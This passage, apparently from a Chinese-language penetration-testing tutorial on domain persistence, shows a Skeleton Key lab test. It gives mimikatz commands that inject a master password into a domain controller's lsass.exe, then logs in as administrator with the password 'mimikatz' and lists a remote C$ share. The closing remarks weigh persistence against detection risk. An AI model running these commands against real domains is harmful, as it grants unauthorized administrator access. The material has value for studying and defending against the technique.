

### 6.1.3. 注入进程

起初我觉得可能是需要高权限，但是换了很多的虚拟机依旧还是不行，有知道的可以告知一下，后来替换为DC向域内主机测试就成功了，难搞！

```
privilege::debug
misc::skeleton
```



### 6.1.4. 测试通信

这里可以看到，使用密码是不对的，但是命令依旧能够成功，那么证明这个操作是可行的，可能真的是我的环境有问题。

```
net use \\windows2008\ipc$ "mimikatz" /user:0DAY\administrator
dir \\windows2008\c$
```



### 6.1.5. 尝试重启

由于Skeleton Key技术是被注入到lsass.exe进程的，所以它只存在内存中，如域控重启，万能密码将失效，这里可以看到我重启后，命令就无法执行了。



# 7. 总结

总体来说这些案例中有很多都是需要上传mimikatz对主机上的，同时很多操作都是需要交互的，那么想要做好权限维持，那么只能再一些必要的情况下去远程连接对方的主机来进行操作，不过这样也增加了被发现的风险，所以有些就尽量不要去操作了。
